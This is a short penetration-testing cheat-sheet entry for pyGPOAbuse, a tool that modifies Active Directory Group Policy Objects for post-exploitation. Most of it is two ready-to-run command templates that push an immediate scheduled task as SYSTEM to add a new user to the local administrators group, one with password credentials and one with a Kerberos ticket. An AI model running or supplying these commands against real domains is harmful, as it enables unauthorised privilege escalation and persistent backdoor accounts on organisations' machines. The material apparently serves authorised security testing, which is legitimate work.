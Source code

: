 # pyGPOAbuse

% Active directory, gpo 
#plateform/linux #target/remote #cat/POSTEXPLOIT/GPO  

## pyGPOAbuse - desc
```
modify an existing GPO that applies to one or more users & computers. It will create an immediate scheduled task as SYSTEM on the remote computer for computer GPO, or as logged in user for user GPO.
```

## pyGPOAbuse - repo
```
https://github.com/Hackndo/pyGPOAbuse
```

## pyGPOAbuse - doc
```
```

## pyGPOAbuse - install
```

```

## immadiat task for computer
```
pygpoabuse.py -gpo-id "gpo_id" -powershell -command 'net user <username|jubeaz> <password|Zaebuj12345+->.. /add;net localgroup administrators <username|jubeaz> /add' -taskname "<task_name|t_jubeaz>" -description "pwn ta face" -f -dc-ip <dc_fqdn> <domain_fqdn>/<user>:<password>
```

## builtin immadiat task for computer (ptt)
add john/HAx00r123.. as local admin
```
python3 pygpoabuse.py -gpo-id "de336708-eb2a-417a-8d62-f234e53037e8"   -dc-ip <dc_fqdn> -k -ccache <ccache> <domain_fqdn>/<user>
```